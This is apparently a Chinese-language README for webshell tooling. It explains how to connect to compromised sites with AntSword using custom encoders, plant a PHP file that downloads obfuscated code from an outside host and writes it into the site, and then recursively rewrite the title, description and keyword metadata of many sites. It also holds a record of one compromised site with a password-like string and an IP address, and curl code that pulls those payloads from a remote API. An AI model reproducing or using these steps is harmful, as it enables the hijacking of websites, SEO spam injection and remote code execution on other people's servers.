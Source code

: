 # README


## antsword配置11111111
特殊的base64、rsa连接，需要先增加对应encode
见： ./config/antswords配置.md


## 修改shell流程：
1. 选择，encode方式，测试链接
2. 链接后找个位置放php，如/rewrite/httpd.php,这个php从oss获取要执行的php代码，
    - 参数1: 执行代码目录位置
    - 参数2: 云端最新代码连接
    配置完成之后执行一次， https://123456vip.top/rewrite/httpd.php
3. 执行修改代码，如:  https://123456vip.top/config/httpd.php?d=up&w=pa
    - 参数 d = dir, 指定开始递归便利的目录，可传: d=上一级，或者目录绝对路径，如： /www/wwwroot/xxx.com/
    - 参数 w = who, pa or be，两条线
 <?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
4. 修改完成之后做记录：
https://123456vip.top/template/template_init.php |mmk123 |  154.12.81.159
代码更新：0608 OK ✅
https://123456vip.top/rewrite/httpd.php
/www/wwwroot/74724/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/74724/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://123456vip.top/config/httpd.php?d=up

## TDK自定义配置
域名-TDK配置在阿里云OSS，格式如：
./tech/ossconf/alltk.json

shell连接之后，从云端获取全局修改tdk代码，代码源码在:
./tech/code/del_do.php，混淆后为： del_do.php

通过php接口获取,代码如下，rdm=当前根域名，w=当前线的代号
```
<?php
$curl = curl_init();
curl_setopt_array($curl, array(
  CURLOPT_URL => 'http://mulu.apid-tw.cc/api/websh/phptdk?rdm=kimsitu.com&w=pa',
  CURLOPT_RETURNTRANSFER => true,
  CURLOPT_ENCODING => '',
  CURLOPT_MAXREDIRS => 10,
  CURLOPT_TIMEOUT => 0,
  CURLOPT_FOLLOWLOCATION => true,
  CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
  CURLOPT_CUSTOMREQUEST => 'GET',
));
$response = curl_exec($curl);
curl_close($curl);
echo $response;
```